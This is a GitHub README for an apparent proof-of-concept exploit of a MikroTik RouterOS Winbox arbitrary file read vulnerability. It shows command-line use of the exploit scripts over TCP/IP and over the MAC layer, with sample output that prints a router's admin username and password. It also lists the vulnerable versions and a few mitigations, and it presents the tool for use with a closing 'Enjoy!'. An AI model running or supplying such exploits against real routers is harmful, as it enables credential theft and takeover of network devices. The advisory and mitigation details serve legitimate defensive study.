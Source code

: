 # WinboxExploit
Proof of Concept of Winbox Critical Vulnerability  
Arbitrary file read

# Blogpost
https://n0p.me/winbox-bug-dissection/


## How to use
Winbox (TCP/IP)
```
$ python3 WinboxExploit.py 172.17.17.17

User: admin
Pass: Th3P4ssWord

```  

MAC server Winbox (Layer 2)  
You can extract files even if the device doesn't have an IP address :-)
```
$ python3 MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)

    aa:bb:cc:dd:ee:ff 

    aa:bb:cc:dd:ee:aa

```
```
$ python3 MACServerExploit.py aa:bb:cc:dd:ee:ff

User: admin
Pass: Th3P4ssWord

```
## Vulnerable versions
all versions from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) are vulnerable ..

## Mitigation Techniques
- Update your RouterOS to the last version or Bugfix version 
- Do not use Winbox and disable it :| it's nothing just a GUI for NooBs ..
- you may use some Filter Rules (ACL) to deny anonymous accesses to the Router 
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```

Enjoy!
